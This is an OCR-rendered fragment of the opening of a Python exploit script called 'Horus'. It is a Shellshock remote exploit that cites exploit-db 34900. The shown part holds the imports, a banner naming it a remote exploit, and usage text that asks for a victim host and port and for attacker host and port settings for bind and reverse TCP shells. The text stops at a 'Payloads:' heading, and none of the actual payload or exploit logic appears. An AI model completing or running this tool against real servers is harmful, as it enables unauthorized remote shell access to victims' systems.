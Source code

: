 # Horus
#! /usr/bin/env python
# REF CODIGO:: http://www.exploit-db.com/exploits/34900/
# SCRIPT  Edited INURL - BRASIL

from socket import *

from threading import Thread

import thread, time, httplib, urllib, sys 

import datetime
import os
import string, random
import optparse

stop = False

proxyhost = ""

proxyport = 0


banner = """
0x[EXPLOIT NAME]: Verific. Remote Exploit (Shellshock) / INURL - BRASIL
------------------------------------------------------------------------------------------------------------------
"""


def usage():

    print """



Usage:

./exploit.py var=<value>



Vars:

rhost: victim host

rport: victim port for TCP shell binding

lhost: attacker host for TCP shell reversing

lport: attacker port for TCP shell reversing

pages:  specific cgi vulnerable pages (separated by comma)

proxy: host:port proxy



Payloads:
